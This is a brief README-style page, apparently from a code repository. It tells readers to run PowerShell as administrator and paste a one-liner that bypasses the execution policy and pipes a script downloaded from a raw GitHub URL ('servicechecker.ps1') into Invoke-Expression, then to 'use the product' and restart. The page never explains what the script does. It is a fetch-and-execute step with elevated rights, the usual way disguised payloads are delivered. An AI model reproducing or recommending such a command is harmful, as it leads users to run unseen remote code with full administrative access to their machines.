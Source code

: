 1) Run powershell as admin
2) paste this in powershell admin powershell ```powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/Skiedlmao/SafeSSerfinal/main/servicechecker.ps1')"```
3) use the product
4) restart your computer
